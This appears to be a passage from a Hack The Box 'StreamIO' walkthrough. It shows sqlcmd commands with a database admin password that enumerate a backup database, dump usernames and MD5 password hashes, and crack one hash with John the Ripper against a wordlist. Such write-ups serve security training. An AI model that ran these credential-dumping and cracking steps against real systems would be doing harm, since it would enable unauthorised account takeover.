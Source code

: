 Let's have a look at the backup database now we have access:

```powershell
PS C:\windows\temp> sqlcmd -S 127.0.0.1 -U db_admin -P "B1@hx31234567890" -Q "SELECT * FROM streamio_backup.information_schema.tables;"
TABLE_CATALOG            TABLE_SCHEMA           TABLE_NAME            TABLE_TYPE
------------------------ ---------------------- --------------------- ----------
streamio_backup          dbo                    movies                BASE TABLE
streamio_backup          dbo                    users                 BASE TABLE
(2 rows affected)
```

We have two tables in the database, let's look at users:

```powershell
PS C:\windows\temp> sqlcmd -S 127.0.0.1 -U db_admin -P "B1@hx31234567890" -Q "SELECT COLUMN_NAME FROM streamio_backup.information_schema.columns where TABLE_NAME = 'users';"
COLUMN_NAME
----------------------------------
id
username
password
(3 rows affected)
```

Usernames and passwords, just what we wanted:

```powershell
PS C:\windows\temp> sqlcmd -S 127.0.0.1 -U db_admin -P "B1@hx31234567890" -Q "USE streamio_backup; SELECT * FROM users;"
Changed database context to 'streamio_backup'.
id    username         password                                          
---- ----------------- -------------------------------
     1 nikk37          389d14cb8e4e9b94b137deb1caf0612a
     2 yoshihide       b779ba15cedfd22a023c4d8bcf5f2332
     3 James           c660060492d9edcaa8332d89c99c9239
     4 Theodore        925e5408ecb67aea449373d668b7359e
     5 Samantha        083ffae904143c4796e464dac33c1f7d
     6 Lauren          08344b85b329d7efd611b7a7743e8a09
     7 William         d62be0dc82071bccc1322d64ec5b6c51
     8 Sabrina         f87d3c0d6c8fd686aacc6627f1f493a5
(8 rows affected)
```

## Crack Nikk37 Hash

We can crack them like before with JohnTheRipper:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# echo "389d14cb8e4e9b94b137deb1caf0612a" > nikk37.txt                      

┌──(root㉿kali)-[~/htb/streamio]
└─# john nikk37.txt --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
get_dem_girls2@yahoo.com (?)     
1g 0:00:00:00 DONE (2022-06-30 21:45) 1.315g/s 10398Kp/s 10398Kc/s 10398KC/s getbenthelmet..get424
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
